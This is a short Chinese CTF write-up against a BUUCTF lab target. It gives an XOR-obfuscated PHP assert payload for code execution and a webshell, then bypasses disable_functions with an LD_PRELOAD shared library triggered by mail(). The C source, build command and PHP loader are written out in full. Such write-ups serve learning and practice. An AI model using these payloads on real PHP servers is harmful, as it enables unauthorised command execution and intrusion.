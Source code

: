 ```
http://268a054e-42e7-45d6-a8ba-7f3e67a00d0a.node3.buuoj.cn/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=phpinfo()
```

很遗憾的发现system等函数都不能执行.

上蚁剑,但是很奇怪的不能直接用密码__来连接, 要这样连, 不然会有奇怪的东西显示 

```
http://268a054e-42e7-45d6-a8ba-7f3e67a00d0a.node3.buuoj.cn/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=eval($_POST[a])
```

......原来一定要eval么.....

然后发现根目录下有无读权限的flag和一个readflag二进制文件.

连上之后向/tmp目录下面写两个东西, 一个是本地生成的so文件, 

hack.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdio.h>

__attribute__ ((__constructor__)) void angel (void){
    unsetenv("LD_PRELOAD");
    system("/readflag > /tmp/ch3n9w");
}
```

编译

```
gcc -shared -fPIC hack.c -o hack.so
```

拖上去就行了

ch3n9w.php

```
<?php

    putenv("LD_PRELOAD=/tmp/hack.so");
    mail("", "", "", "");
?>
```

最后包含代码去执行

```php
http://268a054e-42e7-45d6-a8ba-7f3e67a00d0a.node3.buuoj.cn/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=include("/tmp/ch3n9w.php")
```

``mail``函数产生进程的同时就会触发preload中的代码, 然后读输出中的flag就行了

# 0ctf Wallbreaker Easy
